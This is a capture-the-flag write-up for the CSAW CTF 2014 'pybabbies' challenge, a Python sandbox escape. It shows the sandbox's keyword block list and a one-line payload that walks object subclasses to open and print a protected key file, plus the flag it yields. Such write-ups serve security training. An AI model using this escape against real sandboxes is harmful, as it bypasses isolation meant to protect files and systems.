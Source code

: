 # CSAW CTF 2014: pybabbies

**Category:** Exploitation
**Points:** 200
**Description:**

> so secure it hurts
>
> ```bash
> nc 54.165.210.171 12345
> ```
>
> Written by ColdHeat
>
> [pyshell.py](pyshell.py)

## Write-up

[The provided Python script](pyshell.py) is a Python sandbox that disallows the use of the following commands:

```py
banned = [
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]
```

One possible solution is the following:

```python
print(().__class__.__bases__[0].__subclasses__()[40]('./key').read())
```

This prints the contents of the `key` file:

```
flag{definitely_not_intro_python}
```

The flag is `definitely_not_intro_python`.

## Other write-ups and resources

* <http://rotlogix.com/2014/09/22/csaw-exploitation-200-pybabies/>
* <http://evandrix.github.io/ctf/2014-csaw-exploitation-200-pybabbies.html>
* <https://hexplo.it/escaping-the-csawctf-python-sandbox/>
* <http://sugarstack.io/csaw2014-pybabbies/>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
